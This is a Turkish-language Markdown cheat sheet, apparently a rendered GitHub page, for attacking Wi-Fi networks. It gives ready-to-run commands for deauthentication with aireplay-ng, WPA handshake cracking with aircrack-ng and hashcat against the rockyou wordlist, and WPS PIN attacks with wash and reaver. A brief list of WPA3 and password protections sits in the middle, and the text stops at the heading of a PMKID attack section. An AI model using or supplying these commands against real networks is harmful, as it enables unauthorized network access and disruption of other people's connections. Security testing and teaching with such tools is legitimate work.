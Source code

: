 ## 💣 Deauthentication Saldırısı

```bash
sudo aireplay-ng -0 10 -a [BSSID] -c [CLIENT_MAC] wlan0mon
```

## ✅ Handshake Kontrolü

```bash
ls -l handshake*
```

Wireshark ile `.cap` dosyasını açıp "EAPOL" filtrelenebilir.

## 🔓 Handshake Kırma

### Aircrack-ng

```bash
sudo aircrack-ng -w rockyou.txt -b [BSSID] handshake-01.cap
```

### Hashcat

```bash
hashcat -m 22000 handshake-01.cap rockyou.txt --force
```

## 🔐 WPA3 ve Güvenlik Önlemleri

- SAE protokolü ile brute-force engellenir.
- Güçlü, uzun şifreler kullanın.
- WPA3 cihazlar tercih edin.

## 🔑 WPS PIN Zafiyeti ile Şifre Kırma

### WPS Destekli Cihazları Listeleme

```bash
sudo wash -i wlan0mon
```

### Reaver ile Saldırı

```bash
sudo reaver -i wlan0mon -b [BSSID] -vv
```

## ⚡ PMKID Saldırısı

### PMKID Paket Yakalama
